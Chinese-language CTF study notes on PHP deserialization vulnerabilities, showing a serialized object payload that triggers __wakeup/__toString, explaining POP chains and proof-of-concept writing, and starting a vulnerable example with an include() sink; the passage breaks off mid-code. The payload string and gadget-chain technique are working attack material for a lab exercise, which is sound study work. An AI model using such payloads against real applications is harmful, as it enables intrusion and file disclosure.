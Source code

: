 ```php
//开始解题
实例化fast $a = new fast(); 
实例化sec $b = new sec();
因为唯一可以触发__tostring()函数的地方在echo  $this->source; 所以只能给source赋值成对象sec;
$a->source = $b;
最后echo下serialize后的$b 拿到payload
```

```php
?benben=O:4:"fast":1:{s:6:"source";O:3:"sec":1:{s:6:"benben";N;}}

wakeup is here!!tostring is here!!
```

![image-20231029125857216](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231029125857216.png)



**0x002**
PoC编写

POP链
在反序列化中 我们能够控制的数据就是对象中的属性值（**成员变量**），所以在PHP反序列化中有一种漏洞利用方法叫“**面向对象编程**” 即 **POP (Property Oriented Programming).**
POP链**就是利用魔术方法在里面进行**多次跳转** 然后获取**敏感数据**的一种payload

POC编写
**POC** (Proof of concenpt) **概念验证**  可以被理解成漏洞验证程序 PoC是一段不完整的程序 仅仅是为了可以证明提出者的观点的一段代码

**POP链例题:**

```php
<?php
    //flag is in flag.php
    highlight_file(__FILE__);
error_reporting(0);
class Modifier {
    private $var;
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
```